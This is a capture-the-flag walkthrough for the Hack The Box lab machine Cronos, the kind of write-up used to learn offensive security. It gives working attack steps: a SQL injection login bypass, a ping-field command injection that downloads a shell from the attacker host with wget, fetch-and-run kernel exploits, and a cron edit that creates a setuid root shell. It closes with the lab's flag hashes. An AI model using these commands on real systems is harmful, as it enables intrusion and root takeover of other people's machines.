

# Cronos

**IP Address:** 10.10.10.13

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:--------|:---------|
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0) |
| 53 | domain | ISC BIND 9.10.3-P4 (Ubuntu Linux) |
| 80 | http | Apache httpd 2.4.18 ((Ubuntu)) |

## Exploitation
### Exploit Details (SQL Injection / Command Injection)
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

After enumerating we find an admin.cronos.htb subdomain. The default webpage can by bypassed with SQL injection. From here we are able to utilize command injection to upload a shell. We need to ensure that 'admin.cronos.htb & cronos.htb' are both in the /etc/hosts file before proceeding. 

1. Navigate to http://admin.cronos.htb/ and enter the username as below and any password to bypass the login. 

Commands
```
admin'-- -
asdfasdf
```


2. In the Net Tool v0.1 console select the option ping. Then enter the command as below. Once the shell has uploaded we use curl to initiate it. 

Commands
```
8.8.8.8; wget 10.10.14.18/shell.php
curl http://admin.cronos.htb/shell.php
```




3. Catch the reverse shell and read the user.txt file. 

Commands
```
whoami
cat /home/noulis/user.txt
```


## Privilege Escalation #1
### Exploit Details (Searchsploit)
* **Name** - Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
* **CVE** - 2017-16995
* **Module** - linux/local/45010.c
* **Disclosed** - 2018-07-10
* **References**
  * https://nvd.nist.gov/vuln/detail/CVE-2017-16995
  * https://www.exploit-db.com/exploits/45010

Commands
```bash
wget http://$lhost/linux/exploits/kernel/45010; chmod +x 45010; ./45010
whoami
cat /root/root.txt
```


## Privilege Escalation #2
### Exploit Details (Searchsploit)
* **Name** - Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation 
* **CVE** - 2017-16995
* **Module** - linux/local/44298.c
* **Disclosed** - 2018-03-16 
* **References**
  * https://nvd.nist.gov/vuln/detail/CVE-2017-16995
  * https://www.exploit-db.com/exploits/44298

Commands
```bash
wget http://$lhost/linux/exploits/kernel/44298; chmod +x 44298; ./44298
whoami
cat /root/root.txt
```


## Privilege Escalation #3
### Exploit Details (Cronjob)
* **Name** - Cronjob
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A cronjob exists as part of Laravel web software that is running. We can modify the file /var/www/laravel/app/Console/Kernel.php and change the scheduled task to create a root shell. 

1. Modify the /var/www/laravel/app/Console/Kernel.php file as show below. 

Code
```
$schedule->exec('cp /bin/bash /tmp/rootbash; chmod +s  /tmp/rootbash')->everyMinute();
```


2. Wait a minute then execute the shell and read the root.txt file. 

Commands
```bash
/tmp/rootbash -p
whoami
cat /root/root.txt
```


## Loot
```
user.txt
51d236438b333970dbba7dc3089be33b
root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```